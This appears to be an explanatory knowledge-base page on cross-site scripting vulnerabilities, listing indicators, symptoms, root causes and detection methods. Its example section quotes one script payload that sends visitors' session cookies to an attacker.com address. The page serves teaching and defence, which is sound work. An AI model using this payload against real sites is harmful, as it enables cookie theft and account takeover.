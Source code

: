 ```yaml
---
title: Cross-Site Scripting Vulnerabilities
description: Inadequate input validation and output encoding allows attackers to inject
  malicious scripts that execute in users' browsers.
category:
- Security
- Technical
related_problems:
- slug: sql-injection-vulnerabilities
  similarity: 65%
- slug: log-injection-vulnerabilities
  similarity: 60%
- slug: buffer-overflow-vulnerabilities
  similarity: 55%
- slug: session-management-issues
  similarity: 55%
- slug: authentication-bypass-vulnerabilities
  similarity: 50%
layout: problem
---
```


## Description

Cross-Site Scripting (XSS) vulnerabilities occur when web applications fail to properly validate user input or encode output, allowing attackers to inject malicious scripts that execute in other users' browsers. These vulnerabilities can lead to session hijacking, data theft, defacement, or other malicious activities performed in the context of the victim's browser session.

## Indicators ⟡

- User input displayed in web pages without proper encoding
- JavaScript code can be injected through form fields or URL parameters
- Dynamic content generation without input sanitization
- Client-side data validation without corresponding server-side validation
- User-generated content displayed without security filtering

## Symptoms ▲

- **Script Injection:** Malicious JavaScript code executed in user browsers
- **Session Token Theft:** Attackers stealing session cookies through injected scripts
- **Page Defacement:** Unauthorized modification of web page content
- **Phishing Attacks:** Fake login forms or content injected to steal credentials
- **Malicious Redirects:** Users redirected to attacker-controlled websites

## Root Causes ▼

- **Insufficient Input Validation:** User input not properly validated or sanitized before processing
- **Missing Output Encoding:** Dynamic content not encoded appropriately for the output context
- **Direct DOM Manipulation:** Client-side code directly inserting user data into the DOM
- **Inadequate Content Security Policy:** Missing or weak CSP headers allowing script execution
- **Server-Side Template Injection:** Template engines processing user input without proper escaping
- **Third-Party Component Vulnerabilities:** Vulnerable JavaScript libraries or frameworks

## Detection Methods ○

- **Input Validation Testing:** Test all input fields and parameters for script injection
- **Output Encoding Analysis:** Review how user data is displayed and encoded in responses
- **Automated Security Scanning:** Use security scanners to identify potential XSS vulnerabilities
- **Code Review for XSS Patterns:** Review code for common XSS vulnerability patterns
- **Content Security Policy Testing:** Verify CSP effectiveness in preventing script injection

## Examples

A blog application displays user comments directly in HTML without encoding special characters. An attacker posts a comment containing `<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>` which executes in every visitor's browser, sending their session cookies to the attacker's server. The attacker can then use these session cookies to impersonate users and access their accounts. Another example involves a search function that displays the search term in the results page like "Results for: [user input]". An attacker crafts a malicious URL with JavaScript in the search parameter. When victims click the link, the script executes and can perform actions on behalf of the user, such as changing account settings or making unauthorized transactions.